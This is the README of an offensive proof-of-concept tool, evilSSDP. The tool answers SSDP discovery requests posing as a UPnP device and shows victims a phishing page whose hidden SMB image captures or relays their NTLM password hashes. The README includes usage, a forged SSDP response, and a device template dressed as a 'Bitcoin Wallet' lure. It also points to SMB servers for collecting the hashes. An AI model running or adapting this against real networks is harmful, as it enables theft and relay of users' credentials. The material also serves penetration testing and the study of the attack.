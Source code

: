 # Overview
This tool responds to SSDP multicast discover requests, posing as a generic uPNP device on a local network. Users who are tempted to open the device are shown a configurable webpage. By default, this page will load a hidden image over SMB, allowing you to capture or relay their NTLM password hash.

This works on Windows 10 systems that have disabled NETBIOS and LLMNR and requires no existing credentials to execute.

<img src=slide.png>

# Usage
You need to provide the network interface and a port. The interface is used for both the UDP SSDP interaction as well as hosting a web server for the XML files and phishing page. The port is used only for the web server.

The tool will automatically inject an IMG tag into the phishing page using the IP of the interface you provide. To work with hashes, you'll need to launch an SMB server at that interface. This can be customized in a future version.
```
usage: essdp.py [-h] [-p PORT] [-n NAME] interface

positional arguments:
  interface             Network interface to listen on.

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for HTTP server. Defaults to 8888.
  ```

# Workflow
Devices attempting to discover shared network resources will send a UDP multicast out to 239.255.255.250 on port 1900. The source port is randomized. An example request looks like this:
```
M-SEARCH * HTTP/1.1
Host: 239.255.255.250:1900
ST: upnp:rootdevice
Man: "ssdp:discover"
MX: 3
```

To interact with this host, we need to capture both the source port and the 'ST' (Service Type) header. The response MUST be sent to the correct source port and SHOULD include the correct ST header. Note that it is not just the Windows OS looking for devices - scanning a typical network will show a large amount of requests from applications inside the OS (like Spotify), mobile phones, and other media devices. Windows will only play ball if you reply with the correct ST, other sources are more lenient.

evilSSDP will extract the requested ST and send a reponse like the following:

```
HTTP/1.1 200 OK
CACHE-CONTROL: max-age=1800
DATE: Tue, 26 Jun 2018 01:06:26 GMT
EXT: 
LOCATION: http://192.168.1.131:8888/ssdp/device-desc.xml
SERVER: Linux/3.10.96+, UPnP/1.0, eSSDP/0.1
ST: upnp:rootdevice
USN: uuid:e415ce0a-3e62-22d0-ad3f-42ec42e36563:upnp-rootdevice
BOOTID.UPNP.ORG: 0
CONFIGID.UPNP.ORG: 1
```

The location IP, ST, and date are constructed dynamically. This tells the requestor where to find more information about our device. Here, we are forcing Windows (and other requestors) to access our 'Device Descriptor' xml file and parse it. The USN is just a random string and needs only to be unique and formatted properly.

evilSSDP will pull a file from the templates folder (upnp-basic-device in POC) and dynamically plug in some variables such as your IP address. This 'Device Descriptor' file is where you can customize some juicy-sounding friendly names and descriptions. It looks like this:

```
<root>
    <specVersion>
        <major>1</major>
        <minor>0</minor>
    </specVersion>
    <device>
        <deviceType>urn:schemas-upnp-org:device:Basic:1</deviceType>
        <friendlyName>Bitcoin Wallet</friendlyName>
        <manufacturer>Bitcoin.org</manufacturer>
        <manufacturerURL>http://bitcoin.org</manufacturerURL>
        <modelDescription>Bitcoin Password Storage</modelDescription>
        <modelName>Core</modelName>
        <modelNumber>1337</modelNumber>
        <modelURL>http://bitcoin.org</modelURL>
        <serialNumber>1337</serialNumber>
        <UDN>uuid:e415ce0a-3e62-22d0-ad3f-42ec42e36563</UDN>
        <serviceList>
            <service>
                <URLBase>http://$localIp:$localPort</URLBase>
                <serviceType>urn:ecorp.co:service:ePNP:1</serviceType>
                <serviceId>urn:epnp.ecorp.co:serviceId:ePNP</serviceId>
                <controlURL>/epnp</controlURL>
                <eventSubURL/>
                <SCPDURL>/service-desc.xml</SCPDURL>
            </service>
        </serviceList>
        <presentationURL>http://$localIp:$localPort/present.html</presentationURL>
        </device>
    </root>
```

A key line in this file contains the 'Presentation URL'. This is what will load in a user's browser if they decide to manually double-click on the uPNP device. evilSSDP will host this file automatically (phish-bitcoin in POC), plugging in your source IP address into an IMG tag to access an SMB share that you can host with tools like [Impacket](https://www.coresecurity.com/corelabs-research/open-source-tools/impacket), [Responder](https://github.com/SpiderLabs/Responder), or [Metasploit](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb).

# Customization
This is an early POC, but constructed in such a way to allow easy template creation in the future. For now, you can simply tweak the existing files in the 'templates' folder to rename the device, craft a custom phishing page, etc.

The tool currently only correctly creates devices for the uPNP 'rootdevice' device type, although it is responding to the SSDP queries for all devices types. It could be extended to provided custom answers for different devices in the pursuit of further vulnerabilities.

# Thanks
Thanks to ZeWarren and his project [here](https://github.com/ZeWaren/python-upnp-ssdp-example). I used this extensively to understand how to get the basics for SSDP working.
